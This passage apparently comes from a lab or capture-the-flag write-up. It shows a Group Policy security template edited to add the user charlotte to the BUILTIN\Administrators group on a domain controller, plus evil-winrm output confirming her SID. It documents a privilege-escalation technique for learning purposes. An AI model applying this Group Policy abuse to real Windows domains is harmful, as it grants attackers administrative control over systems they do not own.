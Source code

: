The version number increased and the group membership section was added:
```
[Group Membership]
*S-1-5-32-544__Memberof =
*S-1-5-32-544__Members = *S-1-5-21-3453094141-4163309614-2941200192-1104
```

**`S-1-5-32-544`**: This is the well-known SID for the **BUILTIN\Administrators** (Local Administrators) group.
**S-1-5-21-3453094141-4163309614-2941200192-1104**: This is the SID of charlotte (see below)

evil-winrm session as charlotte on DC01:
```
whoami /user

USER INFORMATION
----------------

User Name        SID
================ ==============================================
secura\charlotte S-1-5-21-3453094141-4163309614-2941200192-1104
```